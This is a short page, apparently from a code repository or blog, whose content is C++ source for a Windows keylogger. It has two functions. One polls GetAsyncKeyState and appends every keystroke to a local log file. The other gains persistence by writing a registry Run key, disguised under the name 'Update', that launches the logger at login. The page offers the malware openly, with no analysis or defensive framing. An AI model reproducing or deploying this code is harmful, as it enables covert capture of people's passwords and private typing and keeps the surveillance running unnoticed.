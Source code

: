 ```cpp
int Keylogger() {
	
	char m;
	while (1) {
		for (m = 0x01; m < 0xfe; m++) {
			if(GetAsyncKeyState(m) & 0x8001 == 0x8001) {
				std::fstream kaydet;
				kaydet.open("log.txt", std::fstream::app);				
				switch(m){
					case 0x14:
						kaydet << "[CAPSLOCK]";
						break;
					default:
						kaydet << m;
						break;
					
				}
					
				
			}
						
		}
		
		
	}

}

int Persistence(){
	HKEY hKey;
	TCHAR reg_path[2500] = "C:\\Users\\j\\Desktop\\keylog.exe";
	DWORD lpath = strlen(reg_path);
	RegCreateKey(HKEY_CURRENT_USER,(LPCSTR)"Software\\Microsoft\\Windows\\CurrentVersion\\Run",&hKey);
	RegSetValueEx(hKey,(LPCSTR)"Update",0,REG_SZ,(BYTE *)reg_path,sizeof(reg_path));
	RegCloseKey(hKey);
	
}
```
<img src="/resimler/keylogger/S1.png">
